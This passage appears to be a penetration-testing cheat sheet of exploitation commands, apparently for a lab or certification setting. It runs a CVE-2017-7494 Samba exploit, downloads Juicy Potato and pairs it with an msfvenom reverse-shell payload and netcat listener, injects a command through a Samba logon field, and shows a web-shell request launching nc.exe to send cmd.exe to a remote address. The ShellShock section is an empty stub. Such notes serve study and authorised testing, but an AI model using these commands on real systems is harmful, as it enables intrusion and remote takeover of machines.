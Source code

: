 My example payload sends two ICMP packets to my computer. Therefore, the command sentence below is necessary to confirm the exploit works. If you chose to include a reverse shell, you would run something like `sudo nc -nvlp 443` instead.
```bash
sudo tcpdump -i tun0 icmp 
```

Run the exploit. 
```bash
python cve_2017_7494.py -t $RHOST --rhost $LHOST --rport $LPORT
```

# ShellShock
## CVE-2014-6271
```bash
# shellshock via smtp
```

## Juicy Potato
```bash
# download Juicy Potato
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# upload Juicy Potato
# ftp, smb, http, etc.

# create a reverse shell and then upload it to the target
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o reverse-shell.exe
sudo nc -nvlp $LPORT

# use Juicy Potato to execute your reverse shell
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

## Shell via Samba Logon Command
```bash
mkdir /mnt/$TARGET
sudo mount -t cifs //$TARGET/$SHARE /mnt/$TARGET
sudo cp $EXPLOIT /mnt/$TARGET
smbclient //$TARGET/$SHARE
logon "=`$EXPLOIT`"
```

```bash
cmd.php?cmd=powershell.exe -c "c:\xampp\htdocs\nc.exe 192.168.49.58 45443 -e 'cmd.exe'"
```

If you get the error below, change the LPORT variable of your exploit. For example, try using a port you discovered was open during the reconnaissance phase. 
```
/*
Warning: fread() expects parameter 1 to be resource, bool given in C:\xampp\htdocs\rshell.php on line 74

Warning: fclose() expects parameter 1 to be resource, bool given in C:\xampp\htdocs\rshell.php on line 89
```
